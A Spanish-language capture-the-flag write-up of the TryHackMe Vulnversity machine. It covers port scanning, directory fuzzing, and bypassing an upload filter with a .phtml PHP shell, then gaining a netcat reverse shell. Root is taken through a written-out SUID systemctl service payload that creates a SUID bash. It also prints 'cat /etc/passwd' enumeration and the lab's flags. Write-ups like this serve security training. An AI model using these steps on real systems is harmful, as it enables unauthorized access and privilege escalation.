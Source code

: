 ## Máquina Vulnversity - Tryhackme

## Vulnerabilidades principales:
* Subida de archivos insegura.
* Abuso de extensión .phtml para ejecutar código PHP malicioso.
* Escalada de privilegios utilizando el binario SUID systemctl

### 1. Reconocimiento
Comando Nmap para realizar escaneo de puertos:
- nmap -sS -n -Pn -p- --open --min-rate 5000 <ip-address> -oN <filename>
![Escaneo Inicial](./screenshots/recon.png)

* -sS: Stealth Scan para agilizar el escaneo
* -n: Evita el DNS.
* -Pn: Evita realizar el descubrimiento de host.
* -p-: Busca en los 65535 puertos.
* --open: Filtra solamente por puertos abiertos.
* --min-rate 5000: Trazar 5000 paquetes por segundo.
* <ip-address>: IP objetivo.
* -oN: Formato Nmap para guardar el output.
* <filename>: Nombre del output.

Puertos encontrados: 21(FTP), 22(SSH), 139(SMB), 445(SMB), 3128(SQUID-PROXY), 3333(HTTP).
Comando Nmap para buscar versión y servicio que corren para dichos puertos:
- nmap -sCV -p21,22,139,445,3128,3333 <ip-adress> -oN <filename>
![Scripts de reconocimiento con Nmap](./screenshots/recon2.png)

* -sCV: Lanza los scripts más populares de reconocimiento y enumera las versiones de los servicios.
* -p<ports>: Enumera los puertos encontrados.

[Evitar FTP y SMB] El script de reconocimiento no nos dice que podemos acceder a el servicio FTP ni tampoco a SMB, ya adelanto que no hay nada que podamos hacer con dichos servicios.
[Visitar la web] Vamos a la web "http://<ip-address>:3333/
![Reconocimiento de la web](./screenshots/recon3.png)
[Hacemos un reconocimiento de la web] Buscamos y analizamos posibles pistas que nos de para poder aprovecharnos de ello.
Usamos "Ctrl + U" para ver el ćodigo fuente en búsqueda de:
- Comentarios que nos otorgue credenciales, pistas, rutas, información sensible, etc.
Pero no encontramos nada interesante.

2.1 Fuzzing
Utilizamos la herramienta Gobuster para hacer fuerza bruta en busqueda de directorios ocultos en la web.
Comando utilizado:
gobuster dir -u http://10.201.64.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 200
![Fuerza bruta en rutas de la web](./screenshots/recon4.png)
* -u: URL objetivo.
* -w: Diccionario empleado para el ataque de fuerza bruta.
* --no-error: Para que no se muestren los errores en el output.
* -t 200: Para lanzar peticiones con 200 hilos y agilizar el proceso.

Directorios encontrados:
* /images
* /css
* /js
* /fonts
* /internal -> Potencial

[Visitamos /internal] Esta ruta permite la subida de archivos. Podemos intentar subir un código malicioso en php para ganar acceso al sistema.
![Ruta potencialmente vulnerable](./screenshots/recon5.png)
Un simple payload en php para ver si la máquina permite la extensión .php
![Payload](./screenshots/exploit1.png)
![Payload2](./screenshots/exploit2.png)
![Payload fallo](./screenshots/exploit3.png)
El servidor no permite la extensión .php por lo que debemos probar otro tipo de extensión que ejecute php, ya sea:
- php5
- phtml
etc

3. Explotación
[Usamos Burpsuite] para agilizar el proceso y estar probando manualmente cada extensión, podemos usar la herramienta Intruder de Burpsuite para cargar una serie de extensiones que se irán probando, y la respuesta del servidor podemos deducir que esa extensión es válida.

![Burpsuite](./screenshots/exploit4.png)
![Burpsuite proxy](./screenshots/exploit5.png)
Ahora enviamos la solicitud al servidor y la capturamos con Burpsuite

![Captura con Burpsuite](./screenshots/exploit6.png)
![Ataque](./screenshots/exploit7.png)

Lo mandamos al Intruder para realizar un ataque de tipo Sniper. Esto se utiliza para probar multiples combinaciones de palabras o caracteres.
En este caso, lo utilizamos para probar múltiples extensiones php.
[lanzamos el ataque]
Dependiendo la longitud de la respuesta podemos determinar si es válida o no. Vemos que extensión ".phtml" tiene mayor longitud que las demás.
Podemos cambiar la extensión y probar con .phtml para subir el script malicioso.

![Extension Sniper Attack](./screenshots/exploit8.png)
¡¡Exitoso!!
![Exitoso](./screenshots/exploit9.png)

Ahora nos dirigimos a la ruta /uploads para ver el archivo.


5. Escalar privilegios.
Nos ponemos en escucha con Netcat en nuestra máquina local en el puerto 443. Cuando hagamos click sobre el archivo, nos entablaremos una reverse shell con acceso al sistema objetivo.

![Netcat](./screenshots/exploit10.png)
![Reverse shell](./screenshots/exploit11.png)

Una vez dentro del sistema, ejecutamos comandos de enumeración del sistema.
- whoami: muestra el usuario actual
- id: muestra los grupos a los que pertenece el usuario actual
- lsb_release -a: información del sistema, kernel, etc.
- cat /etc/passwd: usuarios y servicios del sistema
- sudo -l: comandos que podemos ejecutar como root sin proporcionar contraseña
- find / -perm -4000 2>/dev/null: busca por archivos SUID en el sistema.

![Acceso al sistema](./screenshots/privesc1.png)

[/home] encontramos un usuario de nombre "bill". Dentro de este directorio, encontramos la flag -> 8bd7992fbe8a6ad22a63361004cfcedb

Debemos enumerar los archivos SUID los cuales podemos aprovecharnos de ello.
Utilizando el comando: find / -perm -4000 2>/dev/null
podemos buscar por binarios SUID.
Opcionalmente, podemos concatenar con: xargs ls -l
para ver propietario y permisos.
![Listar permisos SUID](./screenshots/privesc2.png)

Una ves realizado el comando, vemos los típicos binarios del sistema, también otro que podemos aprovecharnos como lo es:
systemctl
[Búsqueda en GTObins] en esta página, podemos encontrar como escalar privilegios con binarios con diferentes permisos. En este caso, SUID.
![Busqueda de binario](./screenshots/privesc3.png)


[SUID Payload] Vemos una serie de comandos que podemos ejecutar como root.
Lo primero que haremos será esto:
![Explotación](./screenshots/privesc4.png)

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

Lo que hace este payload es copiar la bash de root en el directorio /tmp/ con nombre de archivo "rootbash"
Luego, concatena otro comando "chmod +s" para otorgarle permisos SUID a la bash que nos permitirá ejecutar la bash como root.
Luego, guarda todo este "echo" en /tmp/root.service

Despues de hacer todo este payload.

![segundoc comando](./screenshots/privesc5.png)

Ejecutamos: /bin/systemctl link /tmp/root.service

![tercer comando](./screenshots/privesc6.png)

Una vez ejecutado, proseguimos con: /bin/systemctl enable --now /tmp/root.service

Cuando ejecutemos este comando, ya tendremos copiada la bash en /tmp con permiso SUID.

![Vemos la shell en /tmp](./screenshots/privesc7.png)
![Vemos la shell en /tmp](./screenshots/privesc8.png)

![Obtenemos privilegios root](./screenshots/privesc9.png)

Ejecutamos: /tmp/rootbash -p
para tener una shell como usuario root
whoami para verificar si somos root.
Máximos privilegios obtenidos!!

a58ff8579f0a9270368d33a9966c7fd5 -> flag root
